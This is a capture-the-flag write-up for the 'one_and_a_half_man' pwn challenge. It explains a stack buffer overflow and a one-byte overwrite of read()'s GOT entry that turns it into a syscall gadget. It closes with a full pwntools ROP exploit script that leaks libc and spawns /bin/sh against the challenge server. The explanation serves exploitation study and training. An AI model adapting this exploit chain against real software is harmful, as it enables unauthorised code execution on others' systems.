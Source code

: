 checksec outputs the following:

   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x3fe000)

Looking at the executable, there is not much going on. The main() function  
simply calls vuln(), which is the following in C:

void vuln(void)  
{  
 char buf[10];  
 read(0,buf,0xaa);  
}

This is a simple buffer overflow to overwrite the base pointer and return  
pointer. Immediately we have a problem: no gadgets to edit rdx, and no gadgets  
to make a syscall. Recall that NX is enabled, which means we can't load  
shellcode easily. mprotect() requires a syscall gadget anyway. To get around  
this, we make an educated guess that the read() libc function uses the syscall  
instruction, and hope it's close enough to the beginning of the function that  
we can overwrite the lowest byte of read()'s GOT entry to point it to the  
syscall.

Disassembling the read(), we get:

           ;-- read:                                                             
  
           0x00110180      488d0571072e.  lea rax, [0x003f08f8]        
           0x00110187      8b00           mov eax, dword [rax]         
           0x00110189      85c0           test eax, eax                
       ,=< 0x0011018b      7513           jne 0x1101a0                 
       |   0x0011018d      31c0           xor eax, eax                 
       |   0x0011018f      0f05           syscall                      
       |   0x00110191      483d00f0ffff   cmp rax, 0xfffffffffffff000            
  
      ,==< 0x00110197      7757           ja 0x1101f0                            
  
      ||   0x00110199      f3c3           ret                                    

We're not concerned about the ja since that branch will only be taken if the  
system call returns an error. This is effectively a syscall; ret sequence at  
offset 0x11018f. We can edit the lowest byte 0x80 of the read() GOT entry to  
0x8f to point it to this gadget by using the read() PLT entry. However, since  
we don't have control of rdx, the read size will have to be 0xaa. We can
simply  
enter one byte only to make this read only one byte. We add the following call  
to our stack payload:

read@PLT(1,ptr_got_read,0xaa)

After this call, we can use the write() system call to get a leak. Since
read()  
read in only one byte, rax is equal to 1. If we immediately use the syscall  
gadget, this will be a write() system call.

write(1,ptr_got_read,0xaa)

This will get us a libc pointer leak. Now we need to call read() again to load  
"/bin/sh" and the other two execve() args somewhere in preparation for  
execve(). In the vuln() function the assembly looks something like this:

mov eax,0  
call read@PLT

We can use this to call read despite having overwritten the read() GOT entry.

Finally, we invoke vuln() using the last return pointer of this payload to get  
a new payload onto the stack to call execve().

Here is the full exploit script:  
```

#!/usr/bin/env python3

from pwn import *  
import time

#p = process("./one_and_a_half_man")  
p = remote("one-and-a-half-man.3k.ctf.to",8521)

ptr_plt_read = 0x4004b0  
ptr_rel_read = 0x601018  
ptr_pop_rdi = 0x00400693  
ptr_pop_rsi_r15 = 0x00400691  
ptr_vuln = 0x4005b7  
ptr_buf = 0x601070  
ptr_read_gadget = 0x4005cb

buf = b'A' * 10  
buf += p64(ptr_buf)  
buf += p64(ptr_pop_rsi_r15) + p64(ptr_rel_read) + p64(0)  
buf += p64(ptr_plt_read)  
buf += p64(ptr_pop_rdi) + p64(1)  
buf += p64(ptr_plt_read)  
buf += p64(ptr_pop_rsi_r15) + p64(ptr_buf) + p64(0)  
buf += p64(ptr_read_gadget)

p.send(buf + bytes(0xaa - len(buf)))  
p.send(b'\x8f')

s = p.recvn(0xaa)  
ptr_leak = int.from_bytes(s[:8],"little")  
ptr_libc = ptr_leak - 0x11018f

print(hex(ptr_libc))  
#sys.stdin.readline()

ptr_pop_rax = ptr_libc + 0x43a78  
ptr_pop_rdx = ptr_libc + 0x1b96  
ptr_syscall = ptr_libc + 0x13c0

buf = p64(ptr_buf)  
buf += p64(ptr_pop_rax) + p64(59)  
buf += p64(ptr_pop_rdx) + p64(0)  
off = 0x58  
buf += p64(ptr_pop_rdi) + p64(ptr_buf + off)  
buf += p64(ptr_pop_rsi_r15) + p64(ptr_buf + off + 8) + p64(0)  
buf += p64(ptr_syscall)  
buf += b"/bin/sh\x00"  
buf += p64(ptr_buf + off) + p64(0)

p.send(buf)

p.interactive()

```